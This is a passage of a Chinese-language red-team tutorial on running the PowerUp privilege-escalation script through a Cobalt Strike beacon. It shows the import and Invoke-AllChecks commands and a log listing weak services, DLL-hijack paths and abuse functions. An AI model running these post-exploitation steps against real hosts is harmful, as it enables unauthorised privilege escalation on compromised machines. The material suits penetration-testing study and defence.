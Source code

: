 
## 3、PowerUp

PowerUp 所做的事是寻找可能存在弱点的地方，从而帮助提权。

利用 PowerUp 进行提权需要首先导入 ps1 文件`powershell-import PowerUp.ps1`，再执行`powershell Invoke-AllChecks`命令，使用 PowerUp 脚本可以快速的帮助我们发现系统弱点，从而实现提权的目的。

> 其中`PowerUp.ps1`文件可从这里下载：[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

**PowerUp 的使用**

执行以下命令：将 ps1 文件上传到目标主机，并执行所有弱点检查。

```
powershell-import PowerUp.ps1
powershell invoke-allchecks
```

详细运行过程：

```
beacon> powershell-import PowerUp.ps1
[*] Tasked beacon to import: PowerUp.ps1
[+] host called home, sent: 275084 bytes

beacon> powershell invoke-allchecks
[*] Tasked beacon to run: invoke-allchecks
[+] host called home, sent: 313 bytes
[+] received output:
[*] Running Invoke-AllChecks
[+] Current user already has local administrative privileges!
[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...
[+] received output:
ServiceName                     : AeLookupSvc
Path                            : C:\Windows\system32\svchost.exe -k netsvcs
ModifiableFile                  : C:\Windows\system32
ModifiableFilePermissions       : GenericAll
ModifiableFileIdentityReference : BUILTIN\Administrators
StartName                       : localSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AeLookupSvc'
CanRestart                      : True
……内容太多，此处省略……

[*] Checking service permissions...
[+] received output:
ServiceName   : AeLookupSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs
StartName     : localSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AeLookupSvc'
CanRestart    : True
……内容太多，此处省略……

[*] Checking %PATH% for potentially hijackable DLL locations...
[+] received output:
Permissions       : GenericAll
ModifiablePath    : C:\Windows\system32\WindowsPowerShell\v1.0\
IdentityReference : BUILTIN\Administrators
%PATH%            : %SystemRoot%\system32\WindowsPowerShell\v1.0\
AbuseFunction     : Write-HijackDll -DllPath 'C:\Windows\system32\WindowsPowerS
                    hell\v1.0\\wlbsctrl.dll'
……内容太多，此处省略……

[*] Checking for AlwaysInstallElevated registry key...
```